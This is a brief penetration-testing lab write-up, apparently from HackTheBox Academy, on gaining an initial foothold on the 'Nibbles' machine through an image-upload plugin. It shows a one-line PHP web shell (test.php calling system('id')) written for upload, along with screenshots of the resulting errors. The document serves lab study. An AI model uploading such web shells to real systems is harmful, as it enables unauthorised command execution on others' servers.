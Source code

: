 # Nibles - Initial Foothold

## Testing My image plugin

<figure><img src=".gitbook/assets/2024-11-15 15_15_13-HTB Viewer - Work - Microsoft​ Edge.png" alt=""><figcaption></figcaption></figure>

Uploading code



```
┌┌─[us-academy-6]─[10.10.14.97]─[htb-ac-567828@htb-fhxvxejky5]─[~]
└──╼ [★]$ cat test.php 
<?php system('id'); ?>

```

<figure><img src=".gitbook/assets/2024-11-15 15_17_05-Settings.png" alt="We got those errors"><figcaption><p>We got those errors</p></figcaption></figure>

